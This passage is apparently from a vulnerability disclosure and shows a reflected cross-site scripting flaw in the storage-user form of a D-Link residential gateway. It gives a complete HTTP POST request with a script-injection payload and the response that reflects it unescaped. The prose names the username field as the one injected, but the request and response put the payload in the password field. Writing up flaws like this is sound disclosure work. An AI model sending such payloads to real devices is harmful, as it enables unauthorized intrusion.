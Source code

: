 Here I show an example of the vulnerability in the page used to create a new user for accessing a shared folder. If the username is something like `a"><script>alert('xss');</script>`, the web interface generates an error and reflects back the value of the username in the input form.


```
POST /ui/dboard/storage/storageusers/addstorageusers HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.100.1/ui/dboard/storage/storageusers/addstorageusers
Content-Type: application/x-www-form-urlencoded
Content-Length: 157
Connection: close
Cookie: sid=8838526573981467247
Upgrade-Insecure-Requests: 1

enable=true&username=az%5C&password=a%22%3E%3Cscript%3Ealert%28%27xss%27%29%3B%3C%2Fscript%3E&passwordShow=on&action__key=1587374836_1442851124&apply=Applica

```

In the response you can see the payload being reflected.
```
HTTP/1.1 200 OK
Date: Thu, 24 Jan 2019 11:19:25 UTC
Server: HTTP Server
X-Frame-Options: DENY
Connection: close
Content-Language: en
Content-Type: text/html
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Content-Length: 6829


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en">
<head>
[...]
	<title>Residential Gateway - D-Link</title>
	

[...]
<div class="formField" id="password">
	<label for="password">Password:</label>
	<div class="passwordField">

<input type="password" autocomplete="off" name="password" value="a"><script>alert('xss');</script>" autocomplete='off'/>
<span class='text' style='visibility:hidden'><input type='checkbox' name='passwordShow' tabindex='-1'/> mostra password</span>
<script>
fieldPassword('password', 'passwordShow', 1, 0);
</script>

	</div>
</div>
<div class="formField">
<label>Seleziona Gruppi:</label>
<span class='texterror'>Groups not configured</span>
```